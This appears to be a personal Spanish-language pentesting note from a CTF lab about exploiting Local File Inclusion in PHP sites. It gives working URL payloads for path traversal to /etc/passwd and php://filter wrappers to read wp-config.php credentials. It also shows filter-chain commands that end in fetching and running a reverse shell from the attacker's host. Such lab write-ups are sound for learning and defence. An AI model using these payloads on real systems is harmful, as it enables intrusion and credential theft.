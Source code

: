 Esta vulnerabilidad consiste en poder acceder a archivos internos de la máquina, donde funciona principalmente con webs hechas en php. Por ejemplo, si estamos ante una web o un CMS vulnerable como en el siguiente caso, podemos ver que si vemos un exploit de esta vulnerabilidad nos explican como acceder a los archivos internos de la máquina:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#local-file-inclusion
```
![Mis apuntes/ANEXOS/pasted image 0 3.png](app://4626e619c37b47751a65705905d71fac928d/Users/ericmoliner/Library/Mobile%20Documents/iCloud~md~obsidian/Documents/Mi%20carpeta/Mis%20apuntes/ANEXOS/pasted%20image%200%203.png?1676343324000)
![[Mis apuntes/ANEXOS/pasted image 0 3.png]]

Vamos a examinar este exploit, donde vemos que se aprovecha de una vulnerabilidad de local file inclusion, lo que significa que podemos acceder a archivos locales de la máquina:
![[Mis apuntes/ANEXOS/pasted image 0 4.png]]

Vamos a copiar y pegar esa línea y probemos cómo funciona, y si lo pegamos en el navegador accedemos al archivo que queramos, que en mi caso lo modifiqué y puse para ver el fichero etc/passwd:
![[Mis apuntes/ANEXOS/pasted image 0 5.png]]

Pero lo interesante es acceder con el mismo comando del exploit, donde veremos que tenemos acceso a unas credenciales, donde presionamos CONTROL+U y veremos la información estructurada:
![[Mis apuntes/ANEXOS/pasted image 0 6.png]]
Ahora con estas credenciales podremos iniciar sesión en muchos sitios.
## ADQUIRIR WP-CONFIG.PHP DE WOPRDPRESS
Si encontramos un LFI dentro de un wordpress, podemos obtener el fichero de configuración donde se almacenan las credenciales llamado wp-config.php; y para ello tenemos que usar un wrapper (explotando el plugin que corresponda):
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

![[Mis apuntes/ANEXOS/Pasted image 20230826170029.png]]
## EJECUCIÓN REMOTA DE COMANDOS CON LFI
También podemos lograr ejecución remota de comandos si hemos conseguido explotar un LFI y veamos que la web acepte wrappers, por ejemplo dentro de la máquina [[MAQUINA CHAIN]]

------------------------------

Y por aquí podemos explotar un LFI de una forma muy básica:
```
http://utils.chaincorp.nyx/include.php?in=../../../../../../etc/passwd
```
![[Pasted image 20231120194330.png]]

No obstante, podemos intentar leer el fichero include.php, que lo vemos dentro de la url pero en un principio no podemos leerlo, por lo que podemos usar un wrapper, que podemos extraerlo de este repositorio de github:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#local-file-inclusion
```
![[Pasted image 20231120194607.png]]

Lo aplicamos y nos devuelve el contenido de este archivo codificado en base64:
```
http://utils.chaincorp.nyx/include.php?in=php://filter/convert.base64-encode/resource=include.php
```
![[Pasted image 20231120194706.png]]

Y vemos que efectivamente podemos bypassear el lfi y leer el contenido de cualquier fichero:
![[Pasted image 20231120194752.png]]

Existe una tool llamada php_filet_chain_generator que nos permite ejecutar un comando a partir de un LFI conocido, la cual podemos encontrarla en el siguiente repositorio de github:
```
https://github.com/synacktiv/php_filter_chain_generator
```

Y aquí tenemos sus instrucciones de uso:
![[Pasted image 20231120195055.png]]

Lo ejecutamos pero en la parte del php le metemos un comando, por ejemplo el comando ls -l:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('ls -l'); ?>"
```
![[Pasted image 20231120195245.png]]

Pegamos todo esto a partir del php?in= y vemos que se ejecuta el comando:
![[Pasted image 20231120195326.png]]

Generamos el archivo de reverse shell que vamos a ejecutar porque el propio comando al ser tan largo no funcionara, por ello lo generaremos en un archivo el cual es el que compartiremos
![[Pasted image 20240508102821.png]]

Iniciamos un servidor de python para poder compartir el archivo
```Shell
python3 -m http.server 80
```

En este punto lo que haremos será compartir la reverse shell dentro de un index.html desde python, y dentro del payload tenemos que usar wget primero para descargarlo:
![[Pasted image 20231129132004.png]]
```bash
python3 php_filter_chain_generator.py --chain "<?php system('wget 192.168.0.24'); ?>"
```
![[Pasted image 20231129132036.png]]

Y si lanzamos un ls, ahora el archivo está dentro de la máquina, por lo que ejecutamos el siguiente otro payload para ejecutar dicho archivo:
![[Pasted image 20231129132131.png]]

Por tanto ahora ya podemos ejecutar este archivo y obtener la reverse shell:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('bash index.html.1'); ?>"
```
![[Pasted image 20231129132243.png]]
![[Pasted image 20231129132323.png]]

Y habremos recibido la conexión:
![[Pasted image 20231129132337.png]]
